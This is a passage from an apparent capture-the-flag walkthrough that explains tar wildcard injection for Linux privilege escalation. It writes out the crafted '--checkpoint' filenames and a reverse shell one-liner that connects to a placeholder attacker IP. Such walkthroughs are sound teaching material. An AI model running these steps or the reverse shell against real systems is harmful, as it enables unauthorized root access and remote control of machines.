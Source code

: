 <img style="float: left;" src="screenshots/screenshot29.png">

Looking at **GTFOBins**, we can see that we can actually exploit **tar** to spawn a privileged shell. In our case, we need to add in the following tags to the tar command to do so:

* --checkpoint=1
* --checkpoint-action=exec=/bin/sh

As mentioned earlier, the wildcard operator (*) actually allows us to add those tags even though we do not have direct write permissions to the **backup.sh** file. This type of attack is called a **wildcard injection attack**: 

https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/

---

**Explanation of Wildcard Injection Attack**

Assume we have a directory with the following files: **a.txt**, **b.txt**, **c.txt**.

If we do a ```rm *```, we will delete all of the files within the directory. However, what is actually happening is that the *****  is being expanded to list all of the files. Hence, the actual command being run is ```rm a.txt b.txt c.txt```. 

Hence, if we have a file called **-rf**, the actual command being run will be ```rm -rf a.txt b.txt c.txt```. The **-rf** filename will actually end up being interpreted as a command-line argument! 

With the correct program, this attack can be used to escalate privileges.

---

To execute this attack, we need to create two files: **--checkpoint=1** and **--checkpoint-action=exec=bash\ shell.sh** in the **/var/www/html** directory. Before that, let's first create a bash script that spawns a shell. This bash script will be called **shell.sh** and will be also be in /var/www/html.

```
echo $'#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP_HERE/4444 0>&1' > shell.sh
```

We use echo to write the script as **vim** and **nano** were unfortunately not cooperating with the terminal.
